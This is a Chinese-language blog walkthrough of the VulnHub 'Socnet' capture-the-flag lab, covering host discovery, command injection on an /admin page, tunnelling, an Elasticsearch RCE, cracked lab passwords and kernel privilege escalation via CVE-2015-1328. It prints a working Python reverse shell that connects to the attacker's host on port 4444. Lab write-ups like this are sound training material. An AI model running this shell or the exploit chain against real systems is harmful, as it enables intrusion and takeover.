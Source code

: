 ```yaml
---
title: VulnHub靶场 Medium Socnet
description: VulnHub靶场 Medium Socnet WP
pubDate: 10 18 2024
image: https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.webp
categories:
  - 网络安全
tags:
  - 靶场
  - VulnHub靶场
  - 渗透测试
---
```


靶机下载连接：[BoredHackerBlog: Social Network \~ VulnHub](https://www.vulnhub.com/entry/boredhackerblog-social-network,454/)

## Web 渗透

进行主机发现，由于是在用一网段下，所以使用二层 ARP 发现，发现如下主机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-1.webp)

其中 `192.168.135.192` 是物理机器，`192.168.135.2` 是手机，对 22 和 47主机进行服务探测，找出我们的靶机

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-2.webp)

找到靶机为 `192.168.135.22`，在 5000 端口下开放了一个 Python 语言的 HTTP 服务，进行访问，来到如下界面

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-3.webp)

进行测试，页面没啥东西，进行目录扫描，发现 `/admin` 路径，页面如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-4.webp)

可进行命令执行，插入一个 Python 反弹 shell，同时 nc 启动监听

```python
import socket, os
import pty

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.135.192", 4444))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

pty.spawn("sh")
```

反弹成功，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-8.webp)

## 内网渗透

进行基本查看，ls 命令发现 Dockerfile 文件

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-9.webp)

目标机器是一个 docker 容器，查看一下 IP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-10.webp)

目标机器只有一个内网网卡，为 `172.17.0.2/16` ，而我们访问的是 `192.168.135.22`，更能说明这是一个 docker 容器

使用 venom 搭建 socks5 隧道，在本地通关 python 搭建简单 HTTP 服务器，然后通过 wget 将 venom 客户端下载到目标靶机，搭建隧道

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-11.webp)

隧道搭建成功，连接本地 1234 端口即可实现隧道通信。使用 Proxifier 代理，对 `172.17.0.2/16` 进行扫描，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-14.webp)

发现 `172.17.0.1`，并且它也开启了 5000 端口，访问后发现和 `172.17.0.2` 是一样的。对其余 IP 再进行探测

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-13.webp)

发现 `172.17.0.3`，并且开放 9200 端口，对该端口进行详细的服务扫描

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-15.webp)

是一个 1.4.2 版本的 `Elasticsearch REST API`，该应用曾经有过 RCE，去找一下有没有 EXP，结果如下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-16.webp)

查看该 EXP

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-17.webp)

是一个 python2 版本的 exp，用 python3 格式重新写一下，然后直接利用试试，上来直接拿到 root 权限

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-18.webp)

ls 命令发现有个 passwords，里面是用户密码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-19.webp)

挨个解 MD5，得到如下结果

```
john:1337hack
test:1234test
admin:1111pass
root:1234pass
jane:1234jane
```

尝试使用 SSH 登录，结果只有 `john:1337hack` 成功登录，没有 sudo 权限。

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-20.webp)

注意到 Linux 内核版本为 `3.13.0` ，上传扫描脚本，开扫！

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-21.webp)

没 sudo 权限，dirtycow 用不了，选择使用 `CVE-2015-1328`。靶机没 GCC

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-22.webp)

先编译成二进制文件，再上传执行

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-23.webp)

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-24.webp)

失败了，看一下代码

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-25.webp)

这个地方，它又重新调用了 gcc 去生成了一个 `/tmp/ofs-lib.so` 库文件，但是靶机是没有 gcc 的，所以它无法生成这个库文件。

嗯……生成的二进制文件要生成一个库文件，那我们直接把这段代码给他删了，然后直接在目标目录下放一个已经设置好的库文件呢？

修改代码，重新编译

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-28.webp)

然后找 `ofs-lib.so`

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-27.webp)

把他们全部放到靶机里，库文件放到 `/tmp` 下

![](https://img.trtyr.top/images/blog/VulnHub%E9%9D%B6%E5%9C%BA%20Medium%20Socnet/001%20Medium%20Socnet-29.webp)

提权成功。
